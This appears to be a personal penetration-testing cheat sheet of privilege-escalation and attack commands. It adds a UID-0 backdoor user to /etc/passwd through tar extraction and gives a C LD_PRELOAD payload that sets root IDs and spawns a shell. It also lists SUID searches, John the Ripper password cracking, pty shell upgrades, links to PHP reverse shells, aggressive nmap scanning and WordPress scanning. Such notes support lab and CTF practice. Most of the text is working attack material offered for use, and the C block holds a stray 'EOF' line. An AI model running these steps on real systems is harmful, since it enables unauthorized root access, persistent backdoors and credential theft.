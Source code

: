 # Tracking the Various Tips and Tracks learned along the way


### Adding a user to /etc/passwd  

```bash
echo hacker:$(( echo '$1$mysalt$7DTZJIc9s6z60L6aj0Sui.') 2>/dev/null):0:0::/:/bin/bash >> passwd
tar -cvf passwd.tar passwd
tar -xvf passwd.tar -C /etc/
```

### Finding SUID   

- `find / -perm -u=s -type f 2>/dev/null`
- `find / -type f -perm -4000 2>/dev/null`

  
### Compiling a shell  

```c
/*
gcc -fPIC -shared -o shell.so shell.c -nostartfiles
used to LD_PRELOAD shell.so
*/

#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init()
{
    unsetenv("LD_PRELOAD");
    setgid(0);
    setuid(0);
    system("/bin/sh");
}
EOF
```

`gcc cowroot.c -o cowroot -pthread`
### Cracking Passwords with John  

- `john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format:RAW-SHA1`
- `john --list=formats`
- [Hash Formats](https://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats)
- [hash-identifier](https://hashes.com/en/tools/hash_identifier)

### Cracking Passwords with Hashcat

- [Examples](https://hashcat.net/wiki/doku.php?id=example_hashes)

### Upgrading a shell

- `python3 -c 'import pty; pty.spawn("/bin/sh")'`
- `python -c 'import pty; pty.spawn("/bin/sh")'`

### Reverse Shells

- https://github.com/flozz/p0wny-shell
- https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
- https://pentestmonkey.net/tools/web-shells/php-reverse-shell

### Nmap Scans

- `sudo nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p-`

### File Transferring

- `python3 -m http.server 80`

### Wordpress Vulnerability Scans

`wpscan --url 10.x.x.x`
